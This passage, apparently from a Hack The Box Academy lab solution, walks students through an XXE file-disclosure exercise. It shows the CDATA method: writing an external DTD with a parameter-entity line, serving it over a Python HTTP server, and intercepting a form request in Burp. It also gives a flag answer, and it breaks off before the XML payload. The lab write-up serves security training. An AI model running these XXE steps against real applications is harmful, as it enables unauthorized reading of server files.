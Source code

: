 ![[HTB Solutions/CBBH/z. images/7e7a049868ce538952ac1f7c03aa2bd3_MD5.jpg]]

Answer: `UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg`

# Advanced File Disclosure

## Question 1

### "Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error')."

The `CDATA` method will be used first.

After spawning the target machine, students first need to create a `DTD` file on Pwnbox/`PMVPN` utilizing the XML Parameter Entities:

Code: shell

```shell
echo '<!ENTITY joined "%begin;%file;%end;">' > XXE.dtd
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ echo '<!ENTITY joined "%begin;%file;%end;">' > XXE.dtd
```

Afterward, students need to start an HTTP server, such as with Python:

Code: shell

```shell
python3 -m http.server PWNPO
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Subsequently, students need to navigate to `/index.php` and provide dummy data to the required fields. Thereafter, students need to run Burp Suite, make sure that FoxyProxy is set to the preconfigured option "Burp (8080)" in Firefox, and intercept the form request to `/index.php`:

![[HTB Solutions/CBBH/z. images/b15d0fee59e120d4ade4ed497726c7fc_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/3cb890bc401bbea9094d413a2775f7b7_MD5.jpg]]

Students then need to append the following XML data after `<?xml version="1.0" encoding="UTF-8"?>` and place `&joined;` in the email element:

Code: xml
